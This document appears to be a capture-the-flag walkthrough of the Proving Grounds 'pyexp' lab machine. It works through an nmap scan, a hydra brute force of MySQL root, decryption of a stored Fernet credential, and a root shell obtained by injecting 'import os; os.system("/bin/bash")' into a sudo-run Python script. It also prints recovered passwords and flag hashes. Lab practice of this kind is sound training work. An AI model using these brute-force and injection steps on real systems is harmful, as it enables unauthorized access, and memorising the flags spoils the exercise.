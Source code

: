 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled.png)

```bash
IP : 192.168.249.139
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/pyexp]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.139
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-23 11:44 EDT
Nmap scan report for 192.168.249.139
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
1337/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f7af6cd12694dce51a221a644e1c34a9 (RSA)
|   256 46d28dbd2f9eafcee2455ca612c0d919 (ECDSA)
|_  256 8d11edff7dc5a72499227fce2988b24a (ED25519)
3306/tcp open  mysql   MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.23-MariaDB-0+deb10u1
|   Thread ID: 47
|   Capabilities flags: 63486
|   Some Capabilities: SupportsCompression, Speaks41ProtocolNew, IgnoreSigpipes, Speaks41ProtocolOld, LongColumnFlag, SupportsLoadDataLocal, InteractiveClient, ODBCClient, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Support41Auth, DontAllowDatabaseTableColumn, ConnectWithDatabase, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: <Y-t"G#s>{qEC`:@p7`]
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:26:C6:0F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## MySQL Enumeration ⤵️

Lets try hydra for mysql login with user as root →

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.249.139 -t 4
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%201.png)

Got credentials as →

```bash
root : prettywoman
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%202.png)

Now lets dig deeper →

```bash
MariaDB [(none)]> use data;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [data]> show tables;
+----------------+
| Tables_in_data |
+----------------+
| fernet         |
+----------------+
1 row in set (0.001 sec)
MariaDB [data]> select * from fernet \G ;
*************************** 1. row ***************************
cred: gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=
keyy: UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=
1 row in set (0.001 sec)

ERROR: No query specified

MariaDB [data]>
```

Now I searched for fernet decode and  I got this site →

[https://asecuritysite.com/tokens/ferdecode](https://asecuritysite.com/tokens/ferdecode)

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%203.png)

```bash
credentials ->
lucy  :  wJ9`"Lemdv9[FEw-
```

![Untitled](/Vulnhub-Files/img/Pxexp/Untitled%204.png)

Now lets find path to root →

```bash
lucy@pyexp:~$ 
lucy@pyexp:~$ sudo -l
Matching Defaults entries for lucy on pyexp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User lucy may run the following commands on pyexp:
    (root) NOPASSWD: /usr/bin/python2 /opt/exp.py
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/sh")
# exit
lucy@pyexp:~$ sudo -u root /usr/bin/python2 /opt/exp.py
how are you?import os; os.system("/bin/bash"); 
root@pyexp:/home/lucy# whoami
root
root@pyexp:/home/lucy# id
uid=0(root) gid=0(root) groups=0(root)
root@pyexp:/home/lucy# cd ~
root@pyexp:~# ls -al
total 32
drwx------  3 root root 4096 Aug 10  2020 .
drwxr-xr-x 18 root root 4096 Aug 10  2020 ..
-rw-------  1 root root    5 Aug 10  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Aug 10  2020 .local
-rw-------  1 root root 2731 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 10  2020 root.txt
root@pyexp:~# cat root.txt
a7a7e80ff4920ff06f049012700c99a8
root@pyexp:~#
root@pyexp:/home/lucy# ls
user.txt
root@pyexp:/home/lucy# cat user.txt
8ca196f62e91847f07f8043b499bd9be
root@pyexp:/home/lucy#
```